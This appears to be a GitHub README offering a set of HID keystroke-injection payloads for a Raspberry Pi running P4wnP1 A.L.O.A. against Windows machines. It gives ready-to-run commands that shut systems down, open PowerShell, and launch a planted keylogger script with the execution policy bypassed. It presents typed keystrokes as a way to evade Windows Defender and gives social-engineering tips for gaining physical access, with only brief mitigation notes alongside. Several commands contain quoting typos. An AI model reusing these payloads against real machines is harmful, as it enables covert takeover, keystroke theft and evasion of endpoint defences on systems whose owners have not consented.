 <h1>Windows HID Scripting</h1>

<h2>What is this?</h2>
<p>This is a small, curated library of custom payloads for the P4wnP1 A.L.O.A. Designed for quick deployment, each script demonstrates different HID attack techniques, ranging from simple command execution to more advanced automation. Ideal for ethical hacking, red teaming, and testing USB attack vectors in a controlled environment.</p>
<p>Please refer to the original repo to set up the raspberry pi - Be sure to ssh into the pi device or use upload the payloads via the web interface:</p>
https://github.com/RoganDawes/P4wnP1_aloa
or 
https://youtu.be/km81ph7pZz8?si=c6gQug7L4YSAEs9_

<h1>Simple Payloads</h1>

<h3>Close window</h3>
<p>Simply use short cut key to terminate the active task / window.</p>
<pre><code>P4wnP1_cli hid run -c 'press("ALT F4)'
</code></pre>

<h3>Shutdown windows system</h3>
<p>Use keyboard shortcuts to power off the system. Best done when user is not active on the keyboard. The target may interupt the steps and misfire the payload.</p>
<p>Navigates the shutdown options with human level delays.</p>
<pre><code>P4wnP1_cli hid run -c 'press("CTRL ALT DELETE"); delay(1000); press("UP"); delay(500); press("ENTER"); delay(500); press("UP"); delay(500); press("UP"); delay(500); press("ENTER"); delay(500); press("ENTER");'
</code></pre>

<h3>Open Run</h3>
<p>Use Windows and R key to open up the prompt to run applications and tasks.</p>
<pre><code>P4wnP1_cli hid run -c 'press("WIN R");'
</code></pre>
<p>In theory we can open apps without the need for a mouse - all remotely.</p>
<pre><code>P4wnP1_cli hid run -c 'press("WIN R");delay(500);type("notepad.exe\n");press("ENTER");delay(1000);type("This is a test! Payload here!");'
</code></pre>

<h3>Open Powershell</h3>
<p>Use run to open powershell and type payloads.</p>
<pre><code>P4wnP1_cli hid run -c 'press("WIN R"); delay(500); type("powershell/n); press("ENTER");'
</code></pre>

<h2>How to use forward slash.</h2>
<p>The forward slash is essential. It allows you to locate files and execute payloads on a windows system.</p>
<p>It is important to note that the payloads rely heavily on the targets keyboard layout. Whilst this is changeable via HID script code, I had countless issues on finding a solution that worked for me.</p>
<p>After hours of trial and error, payloads on a UK/GB keyboards require some adjustment to enusre that we can enter a forward slash.</p>
<pre><code>/
</code></pre>
<p>The easist way was to ensure that you are using a UK layout.</p>
<pre><code>P4wnP1_cli hid run -c 'layout("gb");'
</code></pre>
<p>Using "|" will NOT work. Atleast in my tests...</p>
<p>The short cut key below is a working alternative.</p>
<pre><code>P4wnP1_cli hid run -c 'layout("gb");press("RIGHT_ALT #");'
</code></pre>
<p>Note that this is a method for remotely activating the keys for forward slash, rather than use a type command (which gets mistaken for code) - so be sure you're on a typable field when executing a payload.</p>

<h2>Example payload using forward slash.</h2>
<p>This payload uses powershell to activate an external powershell script (pre-made pre-injected payload) in the specified planted location.</p>
<p>It executes a payload (keylogger.ps1) in the planted location 'C:\Users\Public\keylogger.ps1'</p>

<pre><code>P4wnP1_cli hid run -c '
layout("gb");
press("WIN R"); delay(500);
type("powershell\n"); press("ENTER"); delay(1000);
type("powershell -ExecutionPolicy Bypass -File C:"); press("RIGHT_ALT #");
type("Users"); press("RIGHT_ALT #");
type("Public"); press("RIGHT_ALT #");
type("keylogger.ps1\n");
press("ENTER");
'</code></pre>

<h2>The Formula!</h2>
<p>As we can see, these three commands will be the bread and butter to writing payloads</p>

<pre><code>#to talk to the raspberry pi
P4wnP1_cli hid run -c '[add commands]'
  
layout("");
  
type("");

press("");

#milliseconds
delay(1000);</code></pre>

<h2>Why is this important?</h2>
<p>We used a multitude of commands to help build a payload that schedules simulated-keyboard-strokes to take control over a target machine, without being in the seat.</p>
<p>It leverages a usb connection to disguise itself as a keyboard. Quite stealthy.</p>
<p>By manually typing in our commands, disguised as user input, we are able to counter antivirus software, like windows defender.</p>
<p>When building ps1 files or python files, windows defender will eradicate it before it even plants itself.</p>
<p>Why not trick the system by manually generating malicious commands via keyboard input?</p>

<h2>Execution vs Mitigation</h2>

<h3>Installing USB (Raspberry Pi)</h3>
<h4>Execution</h4>
<p>For this to work, a threat actor will need to have physical access to the target machine. Use social engineering to charm you way into the room, use a disguise or simply just walk into the room.</p>
<p>Most workers wont question who you are, especially if you look confident and you look like you are one with the team.</p>
<h4>Mitigation</h4>
<p>Provide all workspaces with access controls and physical locks. Be sure to educate staff on how to stay alert and be sharp with suspicious activity.</p>




<br>

<h3>Wifi</h3>
<h4>Execution</h4>
<p>To connect to the Pi, you're required to use a wifi connection produced by the Pi itself.</p>
<p>Use stronger wifi adapters to increase the range to improve stealth.</p>
<h4>Mitigation</h4>
<p>Have the security team frequently check on what wifi signals are live.</p>

<br>

<h3>privileges</h3>
<h4>Execution</h4>
<p>Access a computer who belongs to someone with higher permissions (IT)!</p>
<p>If they have access to root user then so do you!</p>
<h4>Mitigation</h4>
<p>Only allocate the appropriate privileges. Be strict with access control</p>

<h2>Connect with me</h2>
https://linktr.ee/teerasakmairoddee
